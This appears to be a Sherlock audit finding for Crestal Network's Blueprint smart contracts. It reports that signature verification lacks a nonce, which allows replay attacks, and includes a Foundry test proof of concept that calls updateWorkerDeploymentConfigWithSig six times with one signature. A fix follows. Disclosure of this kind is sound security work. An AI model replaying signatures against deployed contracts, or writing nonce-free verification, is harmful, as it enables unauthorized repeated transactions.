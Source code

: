 Great Oily Seagull

Medium

# Missing Nonce in Signature Verification across Blueprint functions

### Summary

The smart contract does not use a nonce when verifying signatures. This makes it vulnerable to replay attacks, where an attacker can reuse a valid signature to perform unauthorized actions multiple times


https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/EIP712.sol#L48


### Root Cause

Root cause lies in signature verification logic. We should ensure nonce is stored in contract variable and proper validation is done to make sure same nonce of the sender is not used again.

```solidity
    function getSignerAddress(
        bytes32 hash,
        bytes memory signature
    ) public pure returns (address) {
        address signerAddr = ECDSA.recover(hash, signature);
        require(signerAddr != address(0), "Invalid signature");
        return signerAddr;
    }
```


### Internal Pre-conditions

NA

### External Pre-conditions

NA

### Attack Path

1. A user signs a message for a transaction.
2. The blueprint protocol verifies the signature and proceed to next step.
3. Attacker can reuse the same signature and call the blueprint again. The contract verifies it successfully and executes the transaction again, even though the user did not intend it.


### Impact

An attacker can replay a previously signed transaction, leading to unintended state changes. This issue can lead to severe security risks if not addressed. Adding a nonce ensures that each signature is used only once, preventing replay attacks.

### PoC


### BlueprintV5.t.sol
```solidity
    function test_updateWorkerDeploymentAudit() public {
        address user = vm.addr(0xA11CE);
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "app.crestal.network";

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // set zero cost for create agents, use any number less than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), 0);

        // set zero cost for create agents, use any number less than 0
        blueprint.setUpdateCreateAgentTokenCost(address(mockToken), 0);

        vm.startPrank(user);

        // Create agent with token
        bytes32 requestId = blueprint.createAgentWithToken(
            projectId,
            base64Proposal,
            workerAddress,
            serverURL,
            address(mockToken)
        );

        // Expect the UpdateDeploymentConfig event
        vm.expectEmit(true, true, true, true);
        emit BlueprintCore.UpdateDeploymentConfig(
            projectId,
            requestId,
            workerAddress,
            base64Proposal
        );

        // update agent deployment config
        blueprint.updateWorkerDeploymentConfig(
            address(mockToken),
            projectId,
            requestId,
            base64Proposal
        );

        // Generate the signature
        (bytes memory signature1, address signerAddress1) = generateSignature(
            projectId,
            base64Proposal,
            serverURL
        );
        blueprint.updateWorkerDeploymentConfigWithSig(
            address(mockToken),
            projectId,
            requestId,
            base64Proposal,
            signature1
        );

        //@audit - i can repeat the same signature multiple times
        blueprint.updateWorkerDeploymentConfigWithSig(
            address(mockToken),
            projectId,
            requestId,
            base64Proposal,
            signature1
        );

        blueprint.updateWorkerDeploymentConfigWithSig(
            address(mockToken),
            projectId,
            requestId,
            base64Proposal,
            signature1
        );

        blueprint.updateWorkerDeploymentConfigWithSig(
            address(mockToken),
            projectId,
            requestId,
            base64Proposal,
            signature1
        );

        blueprint.updateWorkerDeploymentConfigWithSig(
            address(mockToken),
            projectId,
            requestId,
            base64Proposal,
            signature1
        );

        blueprint.updateWorkerDeploymentConfigWithSig(
            address(mockToken),
            projectId,
            requestId,
            base64Proposal,
            signature1
        );

        vm.stopPrank();
    }

```

### Mitigation

To mitigate the issue, do the following steps

1. Introduce a nonce mechanism.
2. Store used nonces to prevent signature reuse.
3. Modify the signed message to include the nonce